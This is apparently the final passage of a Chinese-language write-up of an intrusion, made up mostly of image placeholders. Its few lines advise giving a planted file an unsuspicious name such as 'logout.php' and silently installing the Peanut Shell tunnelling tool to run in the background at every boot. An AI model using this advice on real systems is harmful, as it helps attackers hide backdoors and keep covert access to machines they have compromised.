- 



> 最好命名看起来不被怀疑,例如`logout.php`,不仔细看很难发现

> 可以做个内网穿透,下载一个`花生壳`,静默安装,找到`bin`文件夹里的`exe`文件挂后台执行即可(同样的道理,开机自启动)



> --------------------------------------------->到此整个故事就结束了<-------------------------------------------------
